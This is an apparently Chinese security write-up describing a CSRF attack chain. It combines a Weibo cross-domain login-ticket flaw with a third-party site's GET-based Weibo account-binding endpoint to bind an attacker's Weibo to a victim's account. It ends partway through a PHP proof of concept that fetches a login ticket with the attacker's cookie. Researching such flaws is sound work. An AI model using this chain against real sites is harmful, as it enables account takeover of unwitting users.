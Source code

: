 ![0x02.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x02.png)

## 验证猜想

### 流程

个人中心有这个第三方的账号绑定：

![0x03.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x03.png)

在这里QQ、github、微博、微信四个第三方账号绑定中我有了微博的`CSRF之你登陆我的账号`这个缺陷，所以这里测试下微博的第三方账号绑定。

页面有微博账号绑定的跳转链接：

![0x04](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x04.png)

通过这个链接进入了绑定的界面（未登陆微博）：

![0x05.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x05.png)

通过这个链接进入了绑定的界面（已登陆微博）：

![0x06.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x06.png)

当我授权绑定之后，微博发生了变化，管理中心->我的应用->我的应用：

![0x07.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x07.png)

会多出这个网站在里面，那么这个变化是对我们有利的，还是？

这里我解绑了微博，然后再使用这个已经授权了的微博进行绑定，发现居然不用点击授权了，直接就绑定了。

很显然，在这里这个`便利`解决了一些攻击的利用难度。

### 实现

我们现在具备的几个条件：

1. 微博的`CSRF之你登陆我的账号`缺陷：

登陆你的微博，然后访问http://login.sina.com.cn/sso/crossdomain.php?action=login，会返回这样的内容给你：

![0x08.png](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-04-28/0x08.png)

其中arrURL对应的链接就是凭证登陆的~

2. 你的微博已经授权过了要存在缺陷的网站(这里方便直接跳转而不用再去点击按钮！所以你可以先用自己的微博绑定下存在缺陷的网站的账号，然后解绑就行了~)
3. 绑定请求存在csrf的缺陷（这里因为是GET请求类型 `/oauth/weibo/redirect`，而一般不会对GET请求类型进行CSRF的限制~~）

#### 场景1.攻击步骤：

对方点开凭证链接登陆了你的微博，对方点开绑定微博的链接，绑定了你的微博，完成攻击。

考虑到凭证时效性的问题，在这里写了一个动态的PoC：

```php
<?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket={$res[1]}&ssosavestate=1556602678";
```